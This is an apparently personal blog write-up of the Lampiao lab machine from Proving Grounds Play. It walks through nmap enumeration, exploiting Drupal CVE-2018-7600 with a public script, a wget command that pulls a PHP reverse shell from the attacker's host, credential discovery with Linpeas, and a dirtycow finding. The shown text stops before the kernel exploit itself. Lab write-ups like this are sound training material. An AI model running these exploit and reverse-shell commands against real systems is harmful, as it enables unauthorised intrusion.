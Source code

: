 ```yaml
---
layout: single
title: Lampiao - Proving grounds Play
date: 2023-06-13
classes: wide
header:
  teaser: /assets/images/linux.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - linux
  - drupal
  - dirtycow
  - kernel
---
```


## Linux

![](/assets/images/linux.png)

This blog post is a writeup of the Lampiao machine from Proving grounds play.

### Summary
------------------
- The webserver has a vulnerable Drupal version to RCE.
- We access exploiting this vulnerability.
- We are able to find credentials which allows us to login with a higher privileged user than www-data.
- The Linux kernel version it's vulnerable to dirtycow.
- Exploiting this dirtycow vulnerability allows us to gain access as root user.
### Detailed steps
------------------

### Enumeration

There's a webserver, a SSH service and another interesting open port (1898) running on this box.

![nmap1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\1.JPG)

Let's take a closer look at these ports with Nmap.
 ```
 nmap -A 192.168.201.48 -p 22,80,1898 -o nmap_lampiao.txt
 ```
![nmap2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\2.JPG)


As we can see in the last picture, the 1898 port it's running an HTTP service. Nmap HTTP enum returns some interesting files as CHANGELOG.TXT

CHANGELOG.txt it's a common file in Drupal which shows the current version.
In this case the current version it's `7.54`.

![changelog](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\5.JPG)


`Drupal 7.54` it's vulnerable to a remote code execution as we can see in `CVE-2018-7600` --> https://www.drupal.org/sa-core-2018-002
To exploit this vulnerability I used the following python code --> https://github.com/pimps/CVE-2018-7600

The first step was to check the vulnerability. I successfully executed the exploit with `id` command.
 ```
 python3 drupa7-CVE-2018-7600.py http://192.168.201.48:1898 -c id
 ```

![exploit1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\6.JPG)


Now, in order to gain access to the victim's machine, I uploaded a PHP revershell to the webserver.

Configuring the webshell:
![shell1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\7.JPG)

After configuring the webshell, I opened an HTTP server on my Kali machine with python in my webshell directory:
 ```
 python3 -m http.server 443
 ```

To upload the webshell I used the python exploit to execute a wget command on the victim's machine:
 ```
 python3 drupa7-CVE-2018-7600.py http://192.168.201.48:1898 -c "wget http://192.168.45.177:443/php-reverse-shell.php"
 ```
![exploit2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\8.JPG)


At this point, I was able to access to my webshell on victim's machine and capture the shell running a Netcat listener.
![shell2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\10.JPG)

![shell3](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\9.JPG)


Having access to www-data user I was able to find the first flag:
![userflag](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\userf.jpg)



### Privilege scalation

In order to elevete my privileges I used Linpeas.sh --> https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Linpeas found the following files with an interesting credentials:
![creds](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\15.JPG)

This credentials allowed me to log in via SSH with "tiago" user
![kernel1](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\18.JPG)


Linpeas found a kernel vulnerability too:
```
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

Kernel version:
![kernel2](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\13.JPG)


![kernel3](D:\Alex\ESTUDIOS\OSCP\Lorealex.github.io\assets\images\pg-play-lampiao\13.JPG)